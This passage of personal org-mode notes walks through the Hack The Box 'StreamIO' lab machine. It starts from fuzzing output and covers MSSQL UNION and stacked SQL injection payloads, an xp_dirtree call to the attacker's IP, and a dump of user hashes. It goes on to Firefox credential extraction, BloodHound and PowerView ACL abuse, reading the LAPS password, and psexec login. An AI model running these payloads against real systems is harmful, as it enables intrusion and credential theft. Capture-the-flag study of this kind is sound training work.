-      [Status: 200, Size: 10048, Words: 513, Lines: 282, Duration: 1456ms]
)      [Status: 200, Size: 1345, Words: 64, Lines: 42, Duration: 1533ms]
/      [Status: 200, Size: 1303, Words: 58, Lines: 42, Duration: 1533ms]
?      [Status: 200, Size: 1612, Words: 77, Lines: 50, Duration: 1431ms]
.      [Status: 200, Size: 6704, Words: 330, Lines: 194, Duration: 1493ms]
!      [Status: 200, Size: 2144, Words: 98, Lines: 66, Duration: 1499ms]
,      [Status: 200, Size: 3934, Words: 198, Lines: 114, Duration: 1506ms]
(      [Status: 200, Size: 1345, Words: 64, Lines: 42, Duration: 1498ms]
:      [Status: 200, Size: 29151, Words: 1600, Lines: 786, Duration: 1600ms]
+      [Status: 200, Size: 195757, Words: 9817, Lines: 5498, Duration: 1534ms]
_      [Status: 200, Size: 253314, Words: 12337, Lines: 7178, Duration: 1639ms]
%      [Status: 200, Size: 253314, Words: 12337, Lines: 7178, Duration: 1696ms]
&      [Status: 200, Size: 253314, Words: 12337, Lines: 7178, Duration: 1540ms]
:: Progress: [32/32] :: Job [1/1] :: 53 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
   #+end_src
   now, going through a few of these, and observing the result, we can determine the shape of
   what the query must look like - =%= results in all of the movies being returned. the query 
   must be something like:
   #+begin_src sql
   select * from movies where name like '%<search_term>%';
   #+end_src
   or possibly:
   #+begin_src sql
   select * from movies where CONTAINS (name, '*<search_term>*');
   #+end_src
   NOTE: =*= is the wildcard character in *CONTAINS* TODO: confirm
** try UNION injection
   we notice sending an input like =500'-- -= doesn't result in a match because what must be 
   happening should be something like the below where we're removing the =%= at the end
   #+begin_src 
   select * from movies where name like '%500'-- -%'
   #+end_src
   it's important to do this type of test to make sure we're correct about the actual query.
   so, now, try union injection with the following as the parameter:
   #+begin_src
   q=500%' union select 1,-- -
   #+end_src
   keep adding values like 2, 3, and so on at the end so the query
   *"whenever testing for sql injection, i like testing for something that returns a result and
   does not return a result"*
   in this case =q=500%' union select 1,2,3,4,5,6-- -= doesn't work but 
   =q=500' union select 1,2,3,4,5,6-- -= results in the following output
   #+begin_src html
   

   

   <h5 class="p-2">2</h5>
   

   

   3
   #+end_src
   meaning, the 2nd and 3rd positions are the relevant ones.
** use an mssql cheatsheet
   uses [[https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet][this]] cheatsheet.
** stacked queries
   mssql is sort of uniquely susceptible to stacked query injection; easiest way to check for
   that is using =xp_dirtree=:
   #+begin_src 
   q=500'; EXEC xp_dirtree '\\10.10.16.3\sharename\file'-- -
   #+end_src
   set up an nc listener on *445* and we get an incoming connection
   #+begin_src bat
   $ sudo nc -lvnp 445

listening on [any] 445 ...
connect to [10.10.16.3] from (UNKNOWN) [10.129.1.71] 50786
ESMBrS"NT LM 0.12SMB 2.002SMB 2.???  
   #+end_src
   we can run responder at this point and try and crack the incoming hash; however, it turns
   out the incoming connection is from a system account and there's no point cracking it since
   system accounts are randomly generated.
   #+begin_src 
    sudo responder -I tun0
   #+end_src
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-15_22-38.png @ 2026-01-15 22:38:46
   
*** xp_cmdshell
    checks if =xp_cmdshell= is available using ping:
    #+begin_src 
   sudo tcpdump -i tun0 icmp
    #+end_src
    and the argument:
    #+begin_src sql
      q-500'; EXEC xp_cmdshell 'ping 10.10.16.3'-- -
    #+end_src
    we get nothing back, meaning it's not enabled and/or we're not admin. we can try to enable
    it with:
    #+begin_src 
   RECONFIGURE; EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1;
    #+end_src
** back to UNION injection
   #+begin_src
   q=500' union select 1,@@VERSION,3,4,5,6-- -
   #+end_src
   enumerate other stuff with =user=, =db_name()=, etc.
   =db_name()= accepts parameters which are indexes to db names; here, db_name(4) is =STREAMIO=;
   the first four indices being the default dbs
** enumerate mssql db
   #+begin_src 
   q=500' union select 1,name,id,4,5,6 from streamio..sysobjects where xtype='u'-- -
   #+end_src
   =u= here is *user defined*; also, both =xtype= and =type= seem to work. we get back:
   #+begin_src html
   <h5 class="p-2">movies</h5>
   885578193

   <h5 class="p-2">users</h5>
   901578250
   #+end_src
   here, multiple rows are returned, but this is usually not the case in sql injection, so, we
   can modify the query so everything is returned in one row
   #+begin_src 
   q=500' union select 1,concat(name,':',id),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
   #+end_src
   we get:
   #+begin_src html 
   <h5 class="p-2">movies:885578193</h5>
   <h5 class="p-2">users:901578250</h5>
   #+end_src
   we can refine further with:
   #+begin_src
   q=500' union select 1,string_agg(concat(name,':',id),'|'),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
   #+end_src
   now,
   #+begin_src html
   <h5 class="p-2">movies:885578193|users:901578250</h5>
   #+end_src
   to make the query more obvious, we can change it like so and still get the same result:
   #+begin_src
   q=500' union select 1,(select string_agg(concat(name,':',id),'|')from streamio..sysobjects where xtype='u'),3,4,5,6 -- -
   #+end_src
*** enumerate user table
   #+begin_src
   q=500' union select 1,(select string_agg(concat(name,':',id),'|')from streamio..sysobjects where xtype='u'),3,4,5,6 -- -
   #+end_src
*** columns
   #+begin_src
   q=500' union select 1,(select string_agg(name,'|')from streamio..syscolumns where id=901578250),3,4,5,6 -- -
   #+end_src
   we get back:
   #+begin_src html
   <h5 class="p-2">id|is_staff|password|username</h5>
   #+end_src
*** dump table
   #+begin_src
   q=500' union select 1,(select string_agg(concat(username,':',password),'|')from users),3,4,5,6 -- -
   #+end_src
   and we get the whole table:
   #+begin_src 
James:c660060492d9edcaa8332d89c99c9239
|Theodore:925e5408ecb67aea449373d668b7359e
|Samantha:083ffae904143c4796e464dac33c1f7d
|Lauren:08344b85b329d7efd611b7a7743e8a09
|William:d62be0dc82071bccc1322d64ec5b6c51
|Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5
|Robert:f03b910e2bd0313a23fdd7575f34a694
|Thane:3577c47eb1e12c8ba021611e1280753c
|Carmon:35394484d89fcfdb3c5e447fe749d213
|Barry:54c88b2dbd7b1a84012fabc1a4c73415
|Oliver:fd78db29173a5cf701bd69027cb9bf6b
|Michelle:b83439b16f844bd6ffe35c02fe21b3c0
|Gloria:0cfaaaafb559f081df2befbe66686de0
|Victoria:b22abb47a02b52d5dfa27fb0b534f693
|Alexendra:1c2b3d8270321140e5153f6637d3ee53
|Baxter:22ee218331afd081b0dcd8115284bae3                  |Clara:ef8f3d30a856cf166fb8215aca93e9ff
|Barbra:3961548825e3e21df5646cafe11c6c76
|Lenord:ee0b8a0937abd60c2882eacb2f8dc49f
|Austin:0049ac57646627b8d7aeaccf8b6a936f
|Garfield:8097cedd612cc37c29db152b6e9edbd3
|Juliette:6dcd87740abb64edfa36d170f0d5450d
|Victor:bf55e15b119860a6e6b5a164377da719
|Lucifer:7df45a9e3de3863807c026ba48e55fb3
|Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8
|Diablo:ec33265e5fc8c2f1b0c137bb7b3632b5                  |Robin:dc332fb5576e9631c9dae83f194f8e70
|Stan:384463526d288edcc95fc3701e523bc7
|yoshihide:b779ba15cedfd22a023c4d8bcf5f2332
|admin:665a50ac9eaa781e4f7f04199db97a11
   #+end_src
   NOTE: in mssql, when referencing just by table name doesn't work, it's worth trying
   =<db_name>.dbo.<table_name>= or just =<db_name>..<table_name>=, which defaults to the same
   thing.
** brute force the login with hydra
   greps for 'login' in the feroxbuster output
** the =Env= 'drive'
   to read the environment variables, he does =cd Env:= and then =dir= lets you see the env vars
   and their values; this is a powershell specific thing; chatgpt:
   #+begin_src 
   Env: is a PowerShell provider drive that exposes environment variables as if they were a filesystem.
   #+end_src
** sqlcmd
   if this didn't exist on the target, transfer chisel and access the database from kali
   command he uses is:
   #+begin_src sql
   sqlcmd -U db_admin -P 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP; select username,password from users;'
   #+end_src
** winpeas
   gets the =any= binary; and also says he goes for bloodhound after attempting priv esc
   (presumably with winpeas?);
*** firefox db
    #+begin_src 
   Looking for Firefox DBs
https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#browsers-history

    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
   
    Run SharpWeb (https://github.com/djhohnstein/SharpWeb)        
    #+end_src
    download and run sharpweb like so:
    #+begin_src 
   .\sharpweb.exe firefox
    #+end_src
    it returns nothing; however, persisting with it, we can compress & download the directory 
    #+begin_src bat
    ,*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles> Compress-Archive .\br53rxeg.default-release -DestinationPath 1.zip
					
    ,*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles> download 1.zip
					
    Info: Downloading C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\1.zip to 1.zip
					
    Info: Download successful!
    #+end_src
**** unzip and extract to a directory
     #+begin_src bat
       $ unzip 1.zip -d firefox-data   
     #+end_src
**** firepwd
     use [[https://github.com/lclevy/firepwd][this tool]] to extract encrypted login data from firefox;
     copy the files =logins.json= and =key4.db= to the firepwd directory and run
     #+begin_src 
     python firepwd.py
     #+end_src
     however, it requires =python3.7= and i didn't bother downloading it. a couple of
     interesting things happen here; it extracts the details of a few accounts, among which
     are =administrator= as well as =JDgodd=; ippsec attempts to run cme against all the collected
     usernames and passwords (with =no-brute-force=) and discovers that everything fails;
     however, it turns out that the admin password includes the word =jdgodd=; and so he figures
     it might be reused for the =jdgodd= account and turns out he's right. however, since cme
     does not say =pwned!= in its output, it's not an admin account. at this point , he runs
     bloodhound to see if the account has any access.
**** bloodhound
     ok, interestingly, he uses the creds for the =JDgodd= user and is able to find a path we
     were not able to with the rusthound output from earlier
     #+begin_src 
     JDgodd: JDg0dd1s@d0p3cr3@t0r
     #+end_src
     #+begin_src bat
     rusthound-ce -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d 'streamio.htb' -c All
     #+end_src
     injesting this data, we can see that the =JDgodd= has =WriteOwner= over =CORE_STAFF= group
     #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-01-25_13-22.png @ 2026-01-25 13:22:39
     

     however, =CORE_STAFF= itself has no outbound permissions;
     NOTE: the above image is the result of a query - =Shortest Path from Owned Objects=
**** bloodhound-python
     turns out, in the video, ippsec uses bloodhound-python and the graph shows a path from
     =CORE_STAFF= to the dc (=CORE_STAFF= has =ReadLAPSPassword= over it); so let's use that.
     we run into an error:
     #+begin_src bat
     sudo bloodhound-python -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d 'streamio.htb' -c All --zip

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
ERROR: Could not find a domain controller. Consider specifying a domain and/or DNS server.
     #+end_src
     fix it with:
     #+begin_src bat
     $ sudo bloodhound-python -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d 'streamio.htb' -gc dc.streamio.htb -ns 10.129.6.185 -c All --zip
     #+end_src
** poweview
   transfer powerview to abuse the privs.
   NOTE: the below path is described in bloodhound itself.
   #+begin_src bat
   $pwd = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
   $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDGodd', $pwd)

   Set-DOmainObjectOwner -Identity 'Core Staff' -OwnerIdentity JDGodd -Cred $cred

   Add-DomainObjectAcl -TargetIdentity 'Core Staff' -PrincipalIdentity JDGodd -Cred $cred
   Add-DomainGroupMember -Identity 'Core Staff' -Members nikk37 -Cred $cred
   #+end_src
   verify this worked with:
   #+begin_src bat
   ,*Evil-WinRM* PS C:\Users\nikk37\Documents> net group "Core Staff"
Group name     CORE STAFF
Comment

Members

-------------------------------------------------------------------------------
nikk37
The command completed successfully.
   #+end_src
   NOTE: ippsec had to log out and start a new winrm session for it to work.
   #+begin_src bat
   get-adcomputer dc -property 'ms-mcs-admpwd'
   #+end_src
   this didn't work, so we do what bloodhound suggests:
   #+begin_src 
   Get-DomainObject DC -Properties "ms-mcs-AdmPwd",name
   #+end_src
   at this point, it failed to give me anything so i tried logging out;
   after a new winrm session, it worked, and returned:
#+begin_src 
   name ms-mcs-admpwd
   ---- -------------
   DC   l045YI!fl7[YJ;
   DC
#+end_src
** cme
   #+begin_src bat
   netexec smb 10.129.7.32 -u administrator -p 'l045YI!fl7[YJ;'

SMB         10.129.7.32     445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.129.7.32     445    DC               [+] streamIO.htb\administrator:l045YI!fl7[YJ; (Pwn3d!)
   #+end_src
** log in with psexec
   #+begin_src bat
   impacket-psexec administrator@10.129.7.32
   #+end_src
   we can log in; however, there's nothing on the administrator's desktop. instead, the flag
   is in =Martin='s desktop
   #+begin_src 
   cf1ed03c67018aaeb78e11248c1fa680
   #+end_src
** P.S. - attempting boolean based injection on the login form
   shows this as an alternate path to get the data out of the =streamio_backup= database which
   is something we didn't do. it takes a long time because of the stacked query/time based
   thing as we found out, but would have taken much less time on this database.
   #+begin_src 
   sqlmap -r login.req --force-ssl --dump -D streamio_backup -T users --batch
   #+end_src
   NOTE: however, this does not work since the =db_user= user does not have acccess to this
   database
* learnings
  - even if sqlmap *can* get data out of a database, if it takes a really long time, it's
    probably not the intended path -- enumerate the databases and see if there's something
    smaller which might be useful to extract -- even if this didn't work in this instace.
